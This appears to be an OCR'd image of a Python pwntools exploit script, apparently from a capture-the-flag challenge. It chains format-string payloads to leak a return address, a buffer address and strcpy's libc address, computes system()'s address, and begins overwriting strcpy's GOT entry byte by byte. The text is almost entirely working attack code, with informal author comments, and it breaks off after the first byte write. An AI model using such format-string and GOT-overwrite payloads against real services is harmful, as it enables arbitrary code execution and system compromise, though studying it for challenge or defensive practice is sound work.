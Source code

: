 ```python
proc.sendline(b'1') # log in
proc.sendline(b'') # skip a random read

time.sleep(0.05) # i dont really know why, but if i dont introduce this delay, the program sometimes bugs... wtf?

send_payload_with_input(b'%9$lx') # leak retaddr of display info into main_connected

proc.recvuntil(b"Username: \n")

RETADDR_OF_DISPLAY_INFO = proc.recvline().strip()
RETADDR_OF_DISPLAY_INFO = RETADDR_OF_DISPLAY_INFO.decode()
ADDR_OF_MAIN_CONNECTED = p64(int(RETADDR_OF_DISPLAY_INFO, 16) - 0x6c) # return address of display_info into main_connected (-0x6c so we get the address of main_connected)

STRCPY_AT_GOT = p64(u64(ADDR_OF_MAIN_CONNECTED) + OFFSET_STRCPY)

print("Address of main_connected: ", ADDR_OF_MAIN_CONNECTED[::-1].hex())

send_payload_with_input(b'%7$lx') # read the address of the buffer where our fmt string will be stored when we change the username

proc.recvuntil(b"Username: \n")

ADDR_OF_CONTROLLABLE_BUFFER = proc.recvline().strip()
ADDR_OF_CONTROLLABLE_BUFFER  = ADDR_OF_CONTROLLABLE_BUFFER.decode()
ADDR_OF_CONTROLLABLE_BUFFER = p64(int(ADDR_OF_CONTROLLABLE_BUFFER, 16)) # return address of display_info into

print("Address of buffer where our string is being stored: ", ADDR_OF_CONTROLLABLE_BUFFER[::-1].hex())

STRCPY_AT_GOT_PLUS_ONE = p64(u64(STRCPY_AT_GOT) + 1) # strcpy's address starts with zero (LSB), so I need to leak from strcpy@GOT + 1 to skip that 0
# and print the rest of the address

# send_payload_with_input(STRCPY_AT_GOT + b'%16$s') fun fact: i first tried this but it doesn't work because of the zeroes that STRCPY_AT_GOT contains, most virtual addresses have their most significant 16 bits set to zero (i was stuck for a bit because of this lol)

send_payload_with_input(b'AAA%17$s' + STRCPY_AT_GOT_PLUS_ONE) # leak the address of strcpy at libc, the 3 A's are for padding.

proc.recvuntil(b"Username: \n")

STRCPY_AT_LIBC = proc.recvline()
STRCPY_AT_LIBC = STRCPY_AT_LIBC[3:-21] # remove the "password: "... at the end and the 3 A's at the beginning.
STRCPY_AT_LIBC = u64(STRCPY_AT_LIBC[:8].ljust(8, b'\x00'))
STRCPY_AT_LIBC = p64(STRCPY_AT_LIBC * 0x100) # adding a byte to the right, compensating for the 0 we skip over when leaking the address
#STRCPY_AT_LIBC = p64(int(STRCPY_AT_LIBC, 16)) # return address of display_info into

print("Address of strcpy at libc", STRCPY_AT_LIBC[::-1].hex())

SYSTEM_AT_LIBC = p64(u64(STRCPY_AT_LIBC) - OFFSET_TO_SYSTEM) # write one by one the least significant 3 bytes of system() into strcpy's entry

print("Address of system at libc", SYSTEM_AT_LIBC[::-1].hex())

b0 = u64(SYSTEM_AT_LIBC) & 0xff
send_payload_with_input(byte_write(u64(STRCPY_AT_GOT), b0, 18))

```